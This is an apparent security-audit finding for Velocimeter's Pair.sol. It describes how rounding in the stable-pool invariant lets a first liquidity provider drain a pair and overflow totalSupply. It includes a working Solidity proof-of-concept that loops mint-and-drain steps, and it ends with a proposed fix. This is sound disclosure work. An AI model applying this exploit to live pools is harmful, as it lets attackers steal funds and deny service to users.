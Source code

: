 Immense Maroon Tiger

High

# The first liquidity provider to a stable pair can make the overflow of total Supply and dos the pair.

## Summary
Issue High: The first liquidity provider to a stable pair can make the overflow of total Supply and dos the pair.

## Vulnerability Detail

In the contract `Pair.sol`, the function `_k` calculates the invariant of a stable pool: 

[Pair](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413)

```solidity
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0;
            uint _y = y * 1e18 / decimals1;
            uint _a = (_x * _y) / 1e18;
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```

When x*y < 1e18, the value of `_a =  (x * y ) / 1e18` will be rounded down to zero. This rounding error can lead to the result of function `_k` to be zero and the trader can steal whatever is left in the pool.

The first liquidity provider can DOS the pair by (More details will be shown in POC): 
1. mint a small amount of liquidity to the pool.
2. Steal whatever is left in the pool.
3. Repeat step 1, and step 2 until the overflow of the total supply and the pair is dosed.
4. Other users can not use the pair.


Because, the value of `totalSupply` is calculated as ` totalSupply += amount` in the function `_mint` every time users add liquidity to the pair. And the `amount` is `liquidity` calculated as `liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1)`. After step 2 `Steal whatever is left in the pool`, the values of `_reserve0` and `_reserve1` can be manipulated to be very small, like 2 and 1. Therefore, the value of `liquidity` will be very large which leads to the accumulation of `liquidity` -- the value of `totalSupply` will overflow in about 10 loops of the step1 and step2. More details will be shown in POC.



The current check `liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY` in the function `mint` can not prevent the attack. When `_amount0 = 10_000_000` and `_amount1 = 10_000_000`, it can pass the check `liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY` while the calculation of `_k` will still be zero.

[Pair](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L250-L269)

```solidity
    function mint(address to) external lock returns (uint liquidity) {
        (uint _reserve0, uint _reserve1) = (reserve0, reserve1);
        uint _balance0 = IERC20(token0).balanceOf(address(this));
        uint _balance1 = IERC20(token1).balanceOf(address(this));
        uint _amount0 = _balance0 - _reserve0;
        uint _amount1 = _balance1 - _reserve1;

        uint _totalSupply = totalSupply; // gas savings, must be defined here since totalSupply can update in _mintFee
        if (_totalSupply == 0) {
            liquidity = Math.sqrt(_amount0 * _amount1) - MINIMUM_LIQUIDITY;
            _mint(address(0), MINIMUM_LIQUIDITY); // permanently lock the first MINIMUM_LIQUIDITY tokens
        } else {
            liquidity = Math.min(_amount0 * _totalSupply / _reserve0, _amount1 * _totalSupply / _reserve1);
        }
        require(liquidity > 0, 'ILM'); // Pair: INSUFFICIENT_LIQUIDITY_MINTED
        _mint(to, liquidity);

        _update(_balance0, _balance1, _reserve0, _reserve1);
        emit Mint(msg.sender, _amount0, _amount1);
    }
```

POC is as follows:

```solidity
contract PairTest is BaseTest {
// ...
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testDestroyPair() public {
        confirmFraxDeployment();
        deployPairFactoryAndRouter();
        deployVoter();
        vm.startPrank(address(owner), address(owner));
        FRAX.approve(address(router), TOKEN_1);
        DAI.approve(address(router), TOKEN_1);
        router.addLiquidity(address(FRAX), address(DAI), true, 10_000_000, 10_000_000, 0, 0, address(owner), block.timestamp);
        //10_000_000^2 < 1e18
        

        Pair pair = Pair(factory.getPair(address(FRAX), address(DAI), true));
        drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));

        console.log("DAI balance:", DAI.balanceOf(address(pair)));
        console.log("FRAX balance:", FRAX.balanceOf(address(pair)));


    
        for(uint i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            // as long as 10_000_000^2 < 1e18
            uint liquidity = pair.mint(address(this));
            console.log("pair:", address(pair), "liquidity:", liquidity);
            console.log("total liq:", pair.balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
            console.log("DAI balance:", DAI.balanceOf(address(pair)));
            console.log("FRAX balance:", FRAX.balanceOf(address(pair)));
            require(DAI.balanceOf(address(pair)) == 1, "should drain DAI balance");
            require(FRAX.balanceOf(address(pair)) == 2, "should drain FRAX balance");
         
        }//during the loop 

        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);
        vm.expectRevert();
        pair.mint(address(this));
        vm.stopPrank();
    }

}
```




## Impact

The first liquidity provider to a stable pair can dos the pair.


## Code Snippet

https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413

## Tool used
Manual Review

## Recommendation

Add `require(_k(_amount0, _amount1) > MIN_K` to the function `mint` in the contract Pair.sol. And `MIN_K = 10**10`.
